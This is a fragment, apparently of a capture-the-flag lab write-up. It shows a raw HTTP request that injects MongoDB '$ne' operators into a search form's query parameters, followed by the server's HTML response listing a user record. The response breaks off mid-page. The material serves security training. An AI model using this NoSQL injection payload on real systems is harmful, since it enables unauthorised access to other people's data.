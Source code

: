     ```html
    GET /search?username[$ne]=admin&role[$ne]=guest HTTP/1.1
    Host: 10.10.113.49
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: connect.sid=s%3AReWoLQIkkk0CKfOoHfkUZUihmW_VDwvJ.QkIr73jfr9pLOvVgf%2FRI4atyIGCxPQV%2FkcZtZAgqIcg
    Upgrade-Insecure-Requests: 1
    ```
    
    ```html
    HTTP/1.1 200 OK
    Server: nginx/1.14.0 (Ubuntu)
    Date: Fri, 10 Dec 2021 06:40:01 GMT
    Content-Type: text/html; charset=utf-8
    Connection: close
    X-Powered-By: Express
    ETag: W/"f72-0AeXOLX++etJQQNon9sB8hyDOqU"
    Content-Length: 3954
    
    <!doctype html>
    <html lang="en">
      <head>
        <meta charset="utf-8">
        <title>Gift Request WebApp</title>
    
        <!-- Bootstrap core CSS -->
        <link href="./css/bootstrap.min.css" rel="stylesheet">
    
        <!-- Custom Stylesheet -->
        <link href="./css/style.css" rel="stylesheet">
    
        <!-- Core libraries bootstrap & jquery -->
        <script src="./js/bootstrap5.min.js"></script>
        <script src="./js/jquery-3.6.0.min.js"></script>
    
        <!-- Custom JS code -->
        <script src="./js/script.js"></script>
    
      </head>
    <body>
      <div class="container" style="padding-top: 5%;">
            <img src="./img/aoc3.png" class="rounded mx-auto d-block" alt="Gift Request!">
          <h1 class="display-4">Gift Requests WebApp</h1>
          <p class="lead">Search for a user request in our MongoDB!</p>
            <hr class="my-4">
    
           <form action='/search' method='get'>
              <div class="input-group mb-3">
                <div class="input-group-prepend">
    		    <span class="input-group-text">Username</span>
                </div>
                <input name='username' type="text" class="form-control" placeholder="users requests!" aria-label="username" aria-describedby="basic-addon2">
                <input name='role' type="hidden" value="user">
                <div class="input-group-append">
                  <button type="submit" class="btn btn-success">Search</button>
                </div>
              </div>    
            </form>
            <div> 
              <h5>Username details</h5><br>
              <code>
    		<div class="alert alert-success" role="alert">ID:61733f3fb1c4479e8f9459f5:john:user</div>